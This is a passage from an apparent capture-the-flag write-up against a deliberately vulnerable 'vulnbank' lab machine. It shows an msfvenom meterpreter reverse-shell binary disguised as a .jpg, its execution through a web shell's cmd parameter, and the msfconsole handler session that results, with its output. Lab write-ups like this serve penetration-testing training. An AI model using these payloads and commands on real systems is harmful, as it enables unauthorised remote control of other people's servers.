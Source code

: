 To make things easier I created a meterpreter binary with a jpg extension and uploaded it with a new ticket:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o meterpreter.jpg LHOST=192.168.56.102 LPORT=1337
```

After making the binary executable with

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=chmod%20%2bx%20./upload/meterpreter.jpg
```

we can verify it's now executable

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=ls%20-alh%20./upload/meterpreter.jpg
```

```
-rwxr-xr-x 1 www-data www-data 155 Nov 24 17:13 ./upload/meterpreter.jpg
```

Next step is to fire up a meterpreter listener and execute the binary via the web shell.

```
msfconsole -qx 'use multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST 192.168.56.102; set LPORT 1337; set ExitOnSession false; run -j; jobs -v'
```

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=./upload/meterpreter.jpg
```

```
msf exploit(handler) >
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:1337 -> 192.168.56.101:54486) at 2016-11-24 17:18:05 +0100
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : hackday
OS           : Linux hackday 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 (x86_64)
Architecture : x86_64
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33, suid=33, sgid=33
```

We can now take a closer look at the SQL-Injection filtering and after looking at the files we can see whats going on in `config.php`:
